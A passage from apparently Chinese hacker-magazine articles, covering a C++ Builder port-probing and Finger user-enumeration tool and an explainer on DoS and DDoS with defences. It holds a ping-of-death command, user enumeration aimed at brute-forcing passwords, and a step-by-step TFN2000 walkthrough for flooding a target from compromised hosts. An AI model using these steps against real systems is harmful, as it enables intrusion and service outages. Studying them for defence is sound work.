    // 每探测一种服务，如果成功的话，都会触发 ClientSocket 控件的 Connect 事件，现在我们便来处理这些事件。
    StatusBar1->Panels->Items[0]->Text="开始探测服务";
    if(ClientSocket1->Port==21)
        Memo1->Text=Memo1->Text+" 主机提供FTP 服务，";
    else if(ClientSocket1->Port==23)
        Memo1->Text=Memo1->Text+" 主机提供Telnet 服务，";
    else if(ClientSocket1->Port==80)
        Memo1->Text=Memo1->Text+" 主机提供WWW 服务，";
    else if(ClientSocket1->Port==5000)
        Memo1->Text=Memo1->Text+" 主机提供UPnP 服务，";
    else if(ClientSocket1->Port==110)
        Memo1->Text=Memo1->Text+" 主机提供POP3 服务，";
    else
        Memo1->Text=Memo1->Text+" 主机提供SMTP 服务，";
}

//----------以下便是对错误事件的处理----------

void __fastcall TForm1::ClientSocket1Error(TObject *Sender,
    TCustomWinSocket *Socket, TErrorEvent ErrorEvent, int &ErrorCode)
{
    switch(ErrorEvent)
    {
    case eeGeneral:
        StatusBar1->Panels->Items[0]->Text="未知失败";
        break;
    case eeSend:
        StatusBar1->Panels->Items[0]->Text="XXXXXXXXXXXXXXX";
        break;
    case eeReceive:
        StatusBar1->Panels->Items[0]->Text="读 Socket 连接时失败";
```

```cpp
        break;
    case eeConnect:
        if(ClientSocket1->Port==21)
            Memo1->Text=Memo1->Text+" 主机不提供FTP 服务，";
        else if(ClientSocket1->Port==23)
            Memo1->Text=Memo1->Text+" 主机不提供Telnet 服务，";
        else if(ClientSocket1->Port==80)
            Memo1->Text=Memo1->Text+" 主机不提供WWW 服务，";
        else if(ClientSocket1->Port==5000)
            Memo1->Text=Memo1->Text+" 主机不提供UPnP 服务，";
        else if(ClientSocket1->Port==110)
            Memo1->Text=Memo1->Text+" 主机不提供POP3 服务，";
        else
            Memo1->Text=Memo1->Text+" 主机不提供SMTP 服务，";
        StatusBar1->Panels->Items[0]->Text="找不到服务!";
        break;
    }
    ErrorCode=0;
}

//----------------------------------------
void __fastcall TForm1::ClientSocket1Read(TObject *Sender,
    TCustomWinSocket *Socket)
{
    // 创建 OnRead 事件处理函数，用于显示读取的信息，如果有信息返回的话就显示这提示，不返回信息的话就没有
    Memo1->Text=Memo1->Text+" 以下便是从主机上返回的服务信息：";
    Memo1->Lines->Add(Socket->ReceiveText()); // 返回信息。
}

//----------------------------------------
void __fastcall TForm1::ClientSocket1Connecting(TObject *Sender,
    TCustomWinSocket *Socket)
{
    // 创建 OnConnecting 函数，用于提示正在探测服务
    StatusBar1->Panels->Items[0]->Text="正在探测服务...";
}

//----------------------------------------
void __fastcall TForm1::ClientSocket1Disconnect
```

```cpp
(TObject *Sender,
 TCustomWinSocket *Socket)
{
// 创建 OnDisconnect 事件处理函数，用于提示服务探测完毕
StatusBar1->Panels->Items[0]->Text="服务探测完毕";
;
//------------------------------
}
```

好了，现在可以牛刀小试了，我们以 www.51.net 为例子进行探测。

- 1. 探测 FTP 服务
- 2. 探测 POP3 服务
- 3. 探测 SMTP 服务
- 4. 当远程主机不提供所探测的服务时，程序会提示“不提供某某项服务”

填入域名，选中需要探测的服务“FTP”，点击“探测”，将在窗体右边的空白框返回服务版本信息，如图 3 所示。

由此可知，www.51.net 是开放 FTP 服务的，我们再来探测其他几个常见服务看看。

（2）探测 POP3 服务，如图 4 所示。

相信大家都很信任流光吧，可以看看用流光扫描的结果，如图 7 所示，和我们程序探测的结果是一样的哦。

##### 3. 用户探测

接下来便是用户探测了。这一步同样很重要，获得用户名我们就可以进行暴力破解了，如果用户粗心大意设置了跟用户名一样的密码的话，那无疑是将自己的秘密拱手相让给别人。如果你看过 Coolfire 的教程就会知道泄露用户信息有多大的危害了，所以一般的主机都不会提供这项服务的，但网络上仍然有许多的机器开着 Finger，给人以可乘之机，故这里还是加入这个功能。

（3）探测 SMTP 服务，如图 5 所示。

（4）当远程主机不提供所探测的服务时，程序会提示“不提供某某项服务”，如对 www.51.net 进行 Telnet 服务探测，出现如图 6 所示的探测结果。

要完成用户账号的查询，我们可以使用 NMFinger 控件，它封装了 Finger 协议，Finger 协议是一个相对比较简单的协议，它可以让用户从主机上检索某一用户的信息。

下面来看看 Finger 协议的简介：Finger 协议是一个老旧的并且广泛应用于 UNIX 系统上的检查用户登陆文件（/etc/passwd）的工具。它可以使用户找到某人的登陆名称（电子邮件地址）、他的专用名称，给出你知道的、对应你应用的计算机。Finger 协议也告诉用户是否当前被注册在目标机上。虽然 Finger 和 UNIX 的联系比较密切，但客户也允许从其他系统类型中运行 Finger 协议的查询。

好，接着来。双击 NMFinger 控件，将其加到窗体中去；再双击“探测”按钮（Button1），键入以下代码：

```cpp
//======== 查询主机上的特定用户 ==========
NMFinger1->ReportLevel=Status_Basic;
NMFinger1->TimeOut=50000; // 设置超时值
if(Edit2->Text=="")
    NMFinger1->Host=Edit1->Text;   // 主机 IP 地址，等待输入
else
    NMFinger1->Host=Edit2->Text;   // 主机域名，等待输入
NMFinger1->Port=79; // 设置默认端口为 79
NMFinger1->User=Edit3->Text;
// 如果要查询某一个已知的、特定的用户，如 root，可以在 Edit3 中输入
Memo1->Text=NMFinger1->FingerStr;
// 调用 FingerStr 属性，就可以完成与服务器的连接、查询用户账号等工作，
// 并将 FingerStr 赋给 Memo1 中的 Text 属性，用于在右边的那个空白框里显示用户信息。
```

还要加入 NMFinger 控件的一些处理函数，完善一下程序，代码如下：

```cpp
void __fastcall TForm1::NMFinger1Connect(TObject *Sender)
{
    StatusBar1->Panels->Items[0]->Text="正在获取用户信息...";
}

void __fastcall TForm1::NMFinger1InvalidHost(bool &Handled)
{
    AnsiString NewHost;
    if(InputQuery("主机不正确！","请选择另外一个主机！", NewHost))
    {
        // 当没有填入主机 IP 地址或者域名就点了“探测”按钮时，弹出提示框，
        // 要求用户重新输入主机 IP 或域名，执行下面两句将重新设置 NMFinger1 控件的 Host 属性，
        // 并把 Handled 属性值设置为 true，企图与远程主机重新建立连接。
        NMFinger1->Host=NewHost;
        Edit2->Text=NewHost;
        Handled=true;
    }
}

void __fastcall TForm1::NMFinger1Status(TComponent *Sender,
    AnsiString Status)
{
    if(StatusBar1!=0)
        StatusBar1->Panels->Items[0]->Text=Status;
}

void __fastcall TForm1::NMFinger1Disconnect(TObject *Sender)
{
    if(StatusBar1!=0)
        StatusBar1->Panels->Items[0]->Text="用户探测已经结束";
}

void __fastcall TForm1::NMFinger1ConnectionFailed(TObject *Sender)
{
    ShowMessage("查询用户失败！"); // 当连接失败时（触发 ConnectionFailed 事件时），弹出对话框提示。
}
```

至此，整个程序的编写已经结束了，大家可以编译、运行看看结果了。文中的截图是笔者在写本文的时候随手做的例子的样子，功能不全，BUG 挺多的。

最后，我还想说一点，对于远程主机的探测远远不止这些，这个程序只是一个例子，目的是想说一说如何通过编程来实现对目标主机进行简单探测而已，并不是教大家如何去编扫描器。由于时间仓促，只是糊弄了一下，你可以加入更好的代码，让程序完成更加强大的功能。

## DDoS

文 / isno

### 攻击及其防范

最近有很多的网站关闭、聊天室登录不上、某些网页无法访问，细究下来，原来都是遭到了 DDoS 攻击。而遭到 DDoS 攻击的服务器似乎根本没有办法，只有瘫痪的命运。

那么 DDoS 果真有这么可怕吗？？它的原理是什么？怎么防范呢？本文为大家讲述和分析了 DDoS 的形成原因，介绍了几款比较有名的 DDoS 工具，并且在文章最后的部分讲述了能够缓解这种攻击的方法和预防措施。

最近一段时间，国内的几个大安全网站遭到强烈的分布式拒绝服务攻击（DDoS），服务器连续几十个小时无法正常工作，造成巨大的损失。这次攻击所使用的技术就是拒绝服务攻击的一种。分布式拒绝服务攻击已经成为网络安全界比较关心且较为头痛的攻击技术。下面我们就来介绍一下这种攻击手段以及防范方法。

拒绝服务攻击，这也是这种攻击如此普遍的原因之一。

和完全攻破一个系统比较起来，造成系统的拒绝服务要更加容易些，因此，许多黑客新手都会以这种相对容易的方法来攻击网站从而获得一种刺激和快感。

这种纯粹为了造成对方网络瘫痪而进行的拒绝服务，是为真正的黑客高手所不屑一顾的。真正的高手也许只是去发现这种攻击漏洞，并将它们公布出来，一般是不会亲自去为了攻击而攻击的，因为黑客精神中重要的一条就是永远追求更新的技术，而不是停留在做重复的事情上。

#### 一、普通拒绝服务攻击

“拒绝服务”这个词来源于英文 Denial of Service（简称 DoS），它是一种简单的破坏性攻击，通常攻击者利用 TCP/IP 协议中的某个弱点，或者系统存在的某些漏洞，对目标系统发起大规模的进攻，致使攻击目标无法对合法的用户提供正常的服务。简单地说，拒绝服务攻击就是让攻击目标瘫痪的一种“损人不利己”的攻击手段。

拒绝服务只是攻击的目的，要完成拒绝服务攻击可以有很多途径，对 Windows 系统的 OOB 攻击、IGMP 攻击以及利用设备名的攻击都属于拒绝服务攻击之列，它们的共同点是使被攻击的目标无法提供正常的服务。

当然，这些攻击方式只是拒绝服务攻击大家族中的很少一部分，造成拒绝服务攻击的最多的种类是 TCP/IP 协议设计上的缺陷，例如曾经一度非常流行甚至于让网络管理员闻之色变的 Land 攻击，就是利用了 IP 协议中源地址容易被欺骗的弱点发动的攻击，所以它并不针对某一特殊系统，而是对凡是运行于 TCP/IP 协议之上的所有系统均可造成拒绝服务攻击。

虽然真正的黑客很少单纯是为了攻击而去攻击，但这并不是说他们就不使用拒绝服务攻击，高手们所使用的拒绝服务通常是为了完成其他的攻击而必须做的。例如：

- 1. 在目标机上放了木马，需要让目标机重新启动。
- 2. 为了完成 IP 欺骗攻击，而被冒充的主机却瘫痪了。
- 3. 在正式进攻之前，需要使目标的日志记录系统无法正常工作。

拒绝服务攻击的目的就是让被攻击目标无法正常地工作。从攻击方的角度看来，目标的连接速度减慢或者完全瘫痪，那么攻击的目的也就达到了。而在被攻击的一方看来，当遭到攻击时，系统会出现一些异常现象，例如系统出现蓝屏、CPU 占用率达到 100% 等，这时候就要考虑自己很可能已经遭到攻击了。

#### 二、常见的拒绝服务攻击

##### 1. SYN flood

SYN flood 也是一种较常见的拒绝服务攻击手段，它对 Windows NT 系统的攻击效果尤为明显。其原理是：正常完成一个 TCP 连接的初始化要求连接双方进行三个动作，即所谓的“三次握手”。其过程是这样的：

请求连接的客户机首先将一个带 SYN 标志位的包发送给服务器，服务器收到这个包后随即产生一个自己的 SYN 标志，并把收到的 SYN + 1 作为 ACK 标志的等待确认包返还给客户机。最后，客户机在收到这个包之后发送一个 ACK = SYN + 1 的确认包给服务器。此时，连接正式建立，双方可以使用 TCP 协议传输数据了。

在服务器发出“等待确认包”之后，它就会等待客户机发回 ACK 确认包。这时，这个连接就被加到未完成连接队列中了，直到收到 ACK 应答后才从该队列中删除。但大多数系统的未完成队列的数目是有限制的。如果超过这个数目，服务器就丢弃后来收到的 TCP SYN 包。

因此，攻击者可以伪造许多 SYN 包（用虚假的 IP 源地址），再连接到被攻击方的一个或多个端口。被攻击的服务器就会向假 IP 地址发送等待确认包，然后等待回答。当然，那个假 IP 是不会响应的。这时，被攻击的服务器就会一直等待，直到超时后才从未完成队列中删除这个包，这个过程叫做“半开连接”。如果攻击者伪造的 SYN 包的数量巨大，造成未完成连接队列被填满时，正常用户发送的 TCP 连接请求就被丢弃了，这样就造成了拒绝服务。

##### 2. Smurf 攻击

Smurf 攻击的威胁性在于，它是一种具有放大效果的攻击方式。这种放大效果的原理是这样的：攻击者冒充被攻击者向某个网络上的广播设备发送请求，然后广播设备将请求转发给该网络上的大量设备，于是所有的这些设备都向被攻击者进行回应，这样就达到了使用很小的代价来进行大量攻击的目的。

例如，攻击者冒充被攻击者的 IP，使用 ping 来对一个 C 类网络的广播地址进行发送 ICMP 包，这样，该网络上的 254 台主机都会对被攻击者的 IP 发送 ICMP 回应包，那么，攻击者每发一个包就会给被攻击者带来 254 个包的攻击效果。当然，普通的 ping 命令是不允许对广播地址发包的，但是攻击者完全可以使用编程的方法来达到这种效果。

不仅是 ICMP 包可以用来进行这种攻击，现在还有一种称为 Fraggle 的攻击工具利用 UDP 包对某一网络的广播地址发送对 7 号端口（echo）包的攻击方式，这样，开放 7 号端口的主机会回应 UDP 包，而没有开放 7 号端口的主机也会发送 ICMP 不可达消息，同样可以达到很好的攻击效果。

##### 3. Land 攻击

Land 也是因特网上最常见的拒绝服务攻击类型之一，它是由著名黑客组织 rootshell 发现的，原理很简单：利用向目标机发送大量的源地址和目标地址相同的包，造成目标机解析 Land 包时占用大量的系统资源，从而使网络功能完全瘫痪。

由于这种攻击是利用 TCP/IP 协议本身的漏洞，所以几乎所有连在因特网上的系统都会受到它的影响，尤其是对路由器进行的 Land 攻击威胁更大，会造成整个网络的瘫痪。

##### 4. 死亡之 Ping

“死亡之 Ping”攻击是通过向目标端口发送大量的超大尺寸的 ICMP 包来实现的。当目标收到这些 ICMP 碎片包后，会在缓冲区里重新组合它们。由于这些包的尺寸实在太大以致于造成缓冲区溢出，从而导致系统崩溃。

这种攻击实现起来非常简单，不需要任何其他的程序，只要在 Windows 9x、Windows NT 或者 Linux 的命令行上输入如下命令即可完成攻击：

```bash
ping -l65527 -s 1 <攻击目标IP>
```

#### 三、新型拒绝服务攻击方式——DDoS

##### 1. DDoS 原理

在最近的攻击事件中，黑客使用一种称为“分布式拒绝服务”的攻击方式，“分布式拒绝服务”的英文是 Distributed Denial of Service，简称 DDoS。

要理解 DDoS 的原理，首先应该搞清楚分布式的意思。“分布”是在计算机科学里经常用到的一个词语，按照一般的理解，“分布”是指把较大的计算量或工作量由多个处理器或多个节点共同协作完成。理解了“分布”的概念，“分布式拒绝服务”攻击的含义就不难理解了。所谓“分布式拒绝服务”攻击，就是攻击者在客户端控制大量的攻击源，并且同时向攻击目标发起的一种拒绝服务攻击。一个典型的分布式拒绝服务攻击网络结构如图 1 所示。



攻击者在自己的电脑上就能操纵整个攻击过程。攻击者首先控制多个主控端，主控端是一台已经被黑客入侵并完全控制的运行特定攻击程序的系统主机，然后再由主控端主机去控制多个攻击端。每个攻击端也是一台已被入侵并运行特定程序的系统主机，攻击端的程序由主控端的攻击程序来控制。当攻击者向主控端发出攻击命令后，主控端再往每个攻击端发送，再由攻击端向被攻击目标送出发动拒绝服务攻击的数据包。

为了提高分布式拒绝服务攻击的成功率，攻击者一般需要先控制大量的主机来作为主控端和攻击端。按照现在的 DDoS 攻击程序的运行平台，这些主机一般需要是 UNIX 主机。当然，这些攻击工具也能够移植到其他平台上运行，但是要麻烦一些了。这些攻击工具入侵主机和安装程序的过程都是自动化的。这个过程可分为以下几个步骤：

- 入侵并控制大量主机从而获取控制权。
- 在这些被入侵的主机中安装 DDoS 攻击程序。
- 利用这些被控制的主机对攻击目标发起 DDoS 攻击。

由于整个过程是自动化的，攻击者能够在 5 秒钟之内入侵一台主机并安装攻击工具。可想而知，在短短的一小时之内就可以入侵数千台主机。

##### 2. 分布式拒绝服务攻击工具

现在最常见的分布式拒绝服务攻击程序主要有 Trinoo、TFN 和 Stacheldraht 等几种。它们使用的最主要的攻击方法是利用 TCP/IP 协议中的漏洞，如允许碎片包、大数据包、IP 路由选择、半公开 TCP 连接、数据包 flood 等等，这些都会降低系统性能，甚至使系统崩溃。

每个已知的拒绝服务漏洞一般都会有相应的攻击程序公布出来，每个攻击程序都是独立的。一个特定的漏洞攻击程序往往只影响某一版本的 TCP/IP 协议。发动 DDoS 的工具就是用各种语言将多种拒绝服务攻击程序组合起来。

这类工具的优点是允许一个攻击者使用多种攻击方法同时攻击单个 IP 地址，这大大增加了攻击的成功率，但也意味着必须将所有编译好的攻击程序打包好（如 UNIX 的“tar”文件），以便于传输和进行攻击。

同时，这类工具在允许使用多种拒绝服务攻击方法的情况下，还应该是一个单一的、更易于保存、传输和使用的已编译好的程序。但是，这类分布式拒绝服务攻击的组合工具，一般只允许一个攻击者在同一时间内攻击一个 IP 地址。

为了增加攻击的效率，多个攻击者可以通过 IRC 或电话来保持联系，并且每个人负责攻击不同的系统，以实现团体攻击。这种方法在探测漏洞、入侵系统、安装后门和 rootkit 的行动中经常被使用。

虽然存在一些使用上的限制，但这类工具仍然在不断地增加各种攻击程序，并形成了一个名为“拒绝服务集群”的软件包，trinoo 便是其中最常见的一个。还有一个是由一个名叫 Mixter 的黑客编写的类似的工具——Tribe Flood Network（简称 TFN）。

与 trinoo 只实现 UDP 攻击相比，TFN 支持 ICMP flood、UDP flood、SYN flood 和 Smurf 攻击等。这些攻击通过发送 ICMP_ECHOREPLY（ICMP Type 0）包来进行控制。TFN 也使用了与 trinoo 一样的 Blowfish 加密算法。

可以肯定的是，这些分布式拒绝服务工具包将会得到进一步的发展与完善，功能更强大，隐藏性更强。关键字符串、控制命令、口令将使用更强大的加密算法，或在被非攻击者自己使用时自行销毁，使用加密通信通道，使用像 ICMP 这种令防火墙更难监测或防御的协议进行数据包传输等等。

下面我们就详细介绍一下最常见的一种 DDoS 攻击程序——TFN2000。

##### 3. TFN2000

TFN2000 是一个通过主控端利用大量攻击端主机的资源，对一个或多个目标进行协同攻击的软件。大多数的 UNIX 和 Linux 平台的主机都能被用于此类攻击，而且可以非常容易地将这个工具移植到其他系统平台上。

TFN2000 主要由两部分组成：主控端上的客户端和攻击端上的守护进程。主控端向其攻击端发送攻击指定的目标主机的列表，攻击端据此对目标进行拒绝服务攻击。由一个主控端控制的多个攻击端主机，能够在攻击过程中相互协调，以保证攻击的连续性。主控端和攻击端的网络通信是经过加密的，还可能混杂了许多虚假数据包。整个 TFN 网络可以使用不同的 TCP、UDP 或 ICMP 包进行通信，而且主控端还能伪造其 IP 地址。所有这些特性致使发展防御 TFN2000 攻击的策略和技术变得非常困难或效率低下。

（1）TFN2000 主要有以下特征：

- 主控端通过 TCP、UDP、ICMP 或随机使用其中之一的数据包向代理端主机发送命令。对目标采用的攻击方法包括 TCP/SYN、UDP、ICMP/PING 或 BROADCAST PING（SMURF）数据包 flood 等。
- 主控端与代理端之间数据包的头信息也是随机的，除了 ICMP 总是使用 ICMP_ECHOREPLY 类型的数据包。
- 与上一代版本的 TFN 不同，TFN2000 的守护程序是完全沉默的，它对接收到的命令不会有任何回应。客户端将每一个命令重复发送 20 次，并且认为守护程序至少应该能接收到其中的一个。
- 这些命令数据包可能混杂了许多发送到随机 IP 地址的伪造数据包。
- TFN2000 命令采用了选项格式，其中 -x 是代表某个特定命令的数值，command 则是该命令的参数。
- 所有命令都经过了 CAST-256 算法（RFC 2612）的加密。加密关键字在编译程序时定义，并作为 TFN2000 客户端程序的口令。
- 所有加密数据在发送前都被编码（Base 64）成可打印的 ASCII 字符。TFN2000 守护程序接收数据包并解密数据。
- 守护进程为每一个攻击产生子进程。
- TFN2000 守护进程试图通过修改 argv[0] 内容（或在某些平台中修改进程名）以掩饰自己。伪造的进程名在编译时指定，因此每次安装时都有可能不同。这个功能可以使 TFN2000 伪装成代理端主机的正常进程。因此，只是简单地检查进程列表未必能找到 TFN2000 守护进程（及其子进程）。

（2）安装

在一般的 Linux 环境中，只要解开压缩包后直接用 make 命令编译即可。在其他 UNIX 环境中，需要在 src 子目录下的 Makefile 文件中选择所处平台的编译选项。开始编译时，会要求你输入一个服务器密码，这个密码至少是 8 位字符。

TFN 服务器必须以 root 身份安装，由于它不会自动改变任何的系统设置，所以当系统重启后，你需要重新运行它。一旦 TFN 服务器运行起来，你就可以向服务器列表中加入主机名，之后就可以在自己的计算机中用如下命令与 TFN 服务器进行联系了：

```bash
tfn -h hostname 或者 tfn -f host.txt
```

hostname 就是你安装了 TFN 服务器程序的主机，而 host.txt 是一个包含了攻击目标的文件。

（3）使用

如果不使用任何选项及参数，tfn 的默认命令将是停止攻击并关闭 TFN 服务器上的所有子进程。你通常可以使用 -c <id> 命令来发动攻击。主要的 ID 选项有：

- 从服务器上发出的 DoS 攻击通常会伪装 IP 源地址，通过这个选项，你可以控制服务器上的伪源地址。
- 默认的 ICMP/8、SMURF 和 UDP 攻击使用的是最小的攻击包，但这个选项允许改变发送的包的大小。
- 这是一个 bindshell 后门，当连往特定端口后，会直接进入一个 rootshell。
- 使用 UDP 洪水攻击。
- 使用 SYN 洪水攻击。
- 使用 ICMP 回应攻击。
- 使用 SMURF 攻击。
- 使用 MIX 攻击。
- 使用 TARGA3 攻击。
- 对安装了 TFN 服务器程序的远程主机执行 shell 命令。当使用这个选项时，需要同时使用 -i 再加上要执行的命令，然后用 -i <攻击目标1@攻击目标2@攻击目标3...> 来发动进攻即可。

还有一些其他的可选项，说明如下：

- `-P protocol`：选择与服务器进行联系的协议，可以选用 ICMP、TCP 和 UDP 协议。
- `-D n`：发送 n 个伪造的数据包。
- `-S host/ip`：伪造源 IP 地址。

（4）攻击实例

下面是一次利用 TFN2000 进行攻击的实例，包括从软件安装到发动攻击的全部过程。

假设我们已经控制了一台名为 sample.edu 的主机，现在我们把 TFN2000 软件包拷贝到那台主机的 `/tmp` 目录下，然后我们直接输入 `make` 命令，来编译安装它，它会要求你输入一个 8~12 位的密码。

在编译完成以后，会产生两个可执行文件：`td` 和 `tfn`。其中 `td` 是 TFN 服务器程序，`tfn` 是客户端程序，我们直接运行 `td` 命令来启动 TFN 服务器，并把 `tfn` 拷回到自己的机器中。

接下来，回到自己的机器上，用如下命令向 `www.victim.com` 发起一次标准的 UDP 洪水攻击：

```text
tfn -h sample.edu -c 4 -i www.victim.com
Protocol              : random
Source IP             : random
Client input          : single host
Command               : commence udp flood
Password verification : （这里服务器会要求你输入密码，就是刚才编译时输入的那个）
Sending out packets.
```

到这里，攻击包就已经发送出去了！

在这个例子中，我们只使用了一个 TFN 服务器程序进行攻击。如果攻击目标不是特别脆弱的话，一般是不会造成太大的损害的。但是，如果同时控制了 1000 台安装过 TFN 服务器程序的主机，然后把这些主机的名字添加到一个名叫 `hosts` 的文件里，然后用如下命令攻击：

```text
tfn -f hosts -c 4 -i www.victim.com
```

可以想像，攻击目标将同时遭受到 1000 台主机的猛烈攻击，那么它必死无疑！

#### 四、预防分布式拒绝服务攻击

要想完全抵挡住分布式拒绝服务攻击是比较困难的，因为这种攻击方法往往是利用了网络协议的一些正常特性来进行攻击的。要彻底抵抗 DoS 攻击就势必要对现有的网络协议本身进行改造，这对于现在而言是不太现实的。虽然没有简单和专门的方法免受这些攻击，但是却可以应用各种安全和保护策略来尽量减少因受到攻击所造成的损害。

##### 1. 个人用户防范

对于个人用户来说，应使用如下策略尽量避免遭受攻击：

- 用户应该时常留意自己的网络通信量。这对于个人用户和小型网络尤为重要。在这些环境中，对“正常”的出站通信量是什么样子用户已经有了一定的认识。如果你的电缆调制解调器正常情况下每分钟都会闪烁几次，但忽然有一天“传输”指示灯突然亮起来而且不熄灭，这就是一个发生了不正常事件的信号。
- 访问 Microsoft 的安全公告站点，下载所有尚未安装的合适的修补程序。这样可以有效防止被黑客入侵并作为发动拒绝服务攻击的傀儡；同时也可以避免被某些有系统漏洞而导致的拒绝服务攻击方式攻击。
- 配置防火墙，阻止任何实际不需要的端口上（或者最好忽略）的通信。在个人计算机上使用个人防火墙，可以找到许多优秀的“个人防火墙”。Windows XP 中包括 ICF，而且其他供应商，如 ZoneAlarm 和 Symantec，为其他 Windows 版本设计防火墙。这些程序筛选入站与出站通信量，并在发生特殊事件时发出警报。例如，ZoneAlarm 将在计算机上的应用程序每次试图打开出站 TCP/IP 连接时都发出警告。通过注意这些警告，可以很快将无害通信量（例如，从 Internet Explorer 发出的 HTTP 请求）与可疑通信量（例如，自称从 `winword.exe` 产生的 IRC 通信量）区别开来。

##### 2. 网络系统防范

对于所有面临分布式拒绝服务攻击威胁的网络系统来说，下面也给出了一些简单易行且快速的安全策略：

- 得到因特网服务供应商（ISP）的协助和合作，这一点是非常重要的。分布式拒绝服务攻击主要是耗用带宽，如果单凭自己管理网络是无法对付这些攻击的。与你的 ISP 协商，确保他们同意帮助你实施正确的路由访问控制策略以保护带宽和内部网络。最理想的情况是，当发生攻击时你的 ISP 愿意监视或允许你访问他们的路由器。
- 优化路由和网络结构。如果管理的不仅仅是一台主机，而是一个网络，就需要调整路由表以将拒绝服务攻击的影响减到最小。对于 SYN flood 攻击，应设置 TCP 监听功能。详细资料请参阅相关路由器的技术文档。另外，禁止网络不用的 UDP 和 ICMP 包通过，尤其是不应该允许出站 ICMP “不可到达”的消息。
- 对所有可能成为目标的主机都进行优化，禁止所有不必要的服务。另外，拥有多 IP 地址的主机也会增加攻击者的难度。建议在多台主机中使用多 IP 地址技术，而这些主机的首页只会自动转向真正的 Web 服务器。
- 正在遭到攻击时，必须立刻采取对应策略。尽可能迅速地阻止攻击数据包是非常重要的，同时，如果发现这些数据包来自某些 ISP 时应尽快和他们取得联系。千万不要依赖数据包中的源地址，因为正如我们在上一节中看到的，它们往往都是随机伪造的。能否迅速准确地确定伪造来源，取决于你的响应动作是否迅速，因为路由器中的记录可能会在攻击中止后很快就被清除。
- 对于作为可能被入侵的对象，需要尽快采取合理和有效的措施。现在的拒绝服务攻击服务器都只被安装到 Linux 和 Solaris 系统中，所以应确保主机不被人入侵并且是安全的。现在因特网上有许多旧的和新的漏洞攻击程序，网络管理员应经常检查漏洞数据库，如 www.securityfocus.com 或 packetstorm.security.com 等，以确保你的服务器不受这些漏洞的影响。记住，入侵者总是利用现有的漏洞进入系统并安装攻击程序。系统管理员应该经常检查服务器的配置和安全问题，运行最新升级的软件版本，最重要的一点，就是只运行必要的服务。如果能够完全按照以上建议去做，系统就可以被认为是足够安全的，而且不会被入侵和控制。
- 必须周期性地审核系统。按照我们的经验，虽然许多主机已经被黑客成功入侵了，但是管理员还毫无察觉。所以，应该充分了解系统和服务器软件是如何工作的，经常检查系统的配置和安全策略。还要时刻留意一些安全站点公布的与自己管理的操作系统及软件有关的最新安全漏洞和问题。
- 为了确定系统是否被入侵，还应经常检查文件的完整性。在系统未曾被入侵时，必须对所有二进制程序和其他重要的系统文件产生文件签名，并且周期性地与这些文件比较以确保不被非法修改。另外，建议将文件“校验和”保存到另一台相对坚固的主机当中。可用来检查用于文件完整性的免费工具有很多，如 tripwire 等，中国的网管们可以在玩 MUD 的空闲时间里下载回来试用一下。
- 对于在路由器级防止 DDoS 的方法，应使用 ip verify unicast reverse-path 网络接口命令，这个命令的功能是检查每一个经过路由器的数据包。在路由器的 CEF（Cisco Express Forwarding）表中列有该数据包可到达的网络接口的所有路由，如果在 CEF 中没有该数据包源 IP 地址的路由，路由器将丢弃该数据包。例如，路由器接收到一个源 IP 地址为 202.111.222.333 的数据包，如果 CEF 路由表中没有为 IP 地址 202.111.222.333 提供任何路由，即反向数据包传输时所需的路由，则路由器会丢弃它。
- 反向传输路径转发可以阻止 SMURF 攻击和其他基于 IP 地址伪装的攻击，这能够保护网络和客户免受来自因特网其他地方的侵扰。使用 Unicast RPF 需要打开路由器的 CEF switching 或 CEF distributed switching 选项。不需要将输入接口配置为 CEF 交换。只要该路由器打开了 CEF 功能，所有独立的网络接口都可以配置为其他交换模式。反向传输路径转发属于在一个网络接口或子接口上激活的输入端功能，它负责处理路由器接收的数据包。在路由器上打开 CEF 功能是非常重要的，因为 RPF 必须依靠 CEF。Unicast RPF 包含在支持 CEF 的 Cisco IOS 12.0 及以上版本中。

